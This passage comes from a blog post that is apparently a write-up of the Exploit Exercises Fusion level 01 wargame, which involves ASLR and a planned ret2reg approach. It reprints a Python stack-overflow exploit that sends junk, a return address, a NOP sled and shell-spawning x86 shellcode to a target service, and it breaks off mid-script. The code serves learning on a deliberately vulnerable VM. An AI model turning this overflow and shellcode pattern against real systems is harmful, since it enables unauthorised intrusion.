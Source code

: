 ```yaml
---
layout: post
title: "Exploit Exercises - Fusion 01"
date: 2012-07-03T17:19:00-04:00
comments: true
categories:
 - wargames
 - linux
 - fusion
 - aslr
 - hacking
---
```


It's been a while since I last did a write-up about [Exploit Exercises](http://www.exploit-exercises.com). I'm starting to look back at it now, since I have some more free time again. I've now, as I'm sure you can guess by the title of this post, solved level 01. 



So [this level](http://exploit-exercises.com/fusion/level01) is very similar to the first, except that it has ASLR and doesn't tell us where the buffer is on every execution. Even if it did tell us, due to the ASLR, it very well may change every time it's executed.  Based on this information, I went down the road of using a ret2reg method. 

So let's start with the code we used on level 00, but change the comments and port numbers to be more appropriate: 

```
# Fusion Level 01
# http://exploit-exercises.com/fusion/level01
# Matt Andreko
# twitter: @mandreko
# contact: matt [at] mattandreko.com

from sys import exit
from struct import pack
from optparse import OptionParser
from socket import *

def exploit(hostname, port):
        junk = "A"*139
        ret = pack("&lt;I", 0xbffff999)
        nops = "\x90"*100
        shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f\x6f\x00\x57\x53\x89\xe1\xcd\x80"

        s = socket(AF_INET, SOCK_STREAM)
        try:
                print "[*] Connecting to %s on port %s" % (hostname, port)
                s.connect((hostname, port))
        except:
                print "[*] Connection error"
                exit(1)

        print s.recv(1024)
        s.send("GET /" + junk + ret + " HTTP/1.1\n" + nops + shellcode)


if __name__ == "__main__":
    parser = OptionParser("usage: %prog [options]")
    parser.add_option("-H", "--host", dest="hostname", default="127.0.0.1",
     type="string", help="Target to run against")
    parser.add_option("-p", "--port", dest="portnum", default=20001,
```